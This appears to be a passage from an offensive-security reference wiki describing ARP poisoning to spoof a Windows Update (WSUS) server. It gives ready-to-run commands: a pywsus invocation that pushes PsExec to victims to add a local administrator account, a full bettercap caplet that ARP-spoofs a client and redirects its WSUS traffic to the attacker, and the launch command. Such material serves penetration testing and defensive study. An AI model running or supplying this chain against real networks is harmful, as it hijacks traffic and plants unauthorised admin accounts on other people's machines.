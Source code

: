 {% tab title="WSUS spoofing" %}
ARP poisoning for [WSUS spoofing ](../../../systems-and-services/privilege-escalation/windows/wsus-attacks.md)in a two-subnets layout \(attacker + client in the same segment, legitimate WSUS server in another one\). Packets from the client to the WSUS server need to be hijacked and sent to the attacker's evil WSUS server. In order to do so, the attacker must pose as the client's gateway, route all traffic to the real gateway except the packets destined to the WSUS server.

The evil WSUS server needs to be started before doing ARP poisoning. The [pywsus ](https://github.com/GoSecure/pywsus)\(Python\) utility can be used for that matter.

```bash
python3 pywsus.py --host $network_facing_ip --port 8530 --executable /path/to/PsExec64.exe --command '/accepteula /s cmd.exe /c "net user testuser /add && net localgroup Administrators testuser /add"'
```

Once the WSUS server is up and running, the ARP poisoning attack can start.

{% code title="wsus\_spoofing.cap" %}
```bash
# quick recon of the network
net.probe on

# set the ARP spoofing
set arp.spoof.targets $client_ip
set arp.spoof.internal false
set arp.spoof.fullduplex false

# reroute traffic aimed at the WSUS server
set any.proxy.iface $interface
set any.proxy.protocol TCP
set any.proxy.src_address $WSUS_server_ip
set any.proxy.src_port 8530
set any.proxy.dst_address $attacker_ip
set any.proxy.dst_port 8530

# control logging and verbosity
events.ignore endpoint
events.ignore net.sniff
events.include net.sniff.http.request

# start the modules
any.proxy on
arp.spoof on
net.sniff on
```
{% endcode %}

The caplet above can be loaded with the following command in order to launch the ARP poisoning attack.

```bash
bettercap --iface $interface --caplet wsus_spoofing.cap
```
